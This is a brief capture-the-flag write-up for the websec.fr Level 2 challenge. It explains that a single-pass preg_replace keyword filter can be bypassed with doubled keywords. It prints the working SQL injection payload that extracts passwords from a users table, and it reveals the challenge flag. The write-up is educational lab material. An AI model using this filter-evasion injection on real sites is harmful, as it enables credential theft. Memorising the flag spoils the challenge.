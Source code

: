 # Level 2
1. First, lets check what is written in http://websec.fr/level02/source.php
2. Then, we would find that it finally filter those KEYWORDS, so I feel a little bit upset ...
3. BUT until I read the source carefully, I find out that preg_replace will only replace once ! We can get the flag by the command below : 
```
1 uunionnion sselectelect 1, password ffromrom users
```
4. You can think like 1 u~~union~~nion s~~select~~elect 1, password f~~from~~rom users, so it would become : 
```
1 union select 1, password from users
```
5. Here is the flag : WEBSEC{BecauseBlacklistsAreOftenAgoodIdea}
